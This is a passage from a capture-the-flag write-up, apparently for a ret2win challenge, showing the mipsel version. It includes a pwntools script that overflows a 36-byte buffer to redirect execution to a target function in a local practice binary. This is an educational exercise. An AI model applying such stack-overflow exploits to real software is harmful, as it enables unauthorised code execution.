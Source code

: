 # mipsel (32 bit) architecture
Same 36 bytes offset same payload

```
from pwn import *
context.binary = elf = ELF('./ret2win_mipsel')

p = elf.process()

offset = 4*9
payload = b'f'*offset+p32(elf.sym['ret2win'])

p.recv()
p.sendline(payload)
p.interactive()
```

# Conclusion

In this challenge, being the first and the simplest, the differences between the different architectures were not seen.
But in the next challenges these diffeences will emerge!



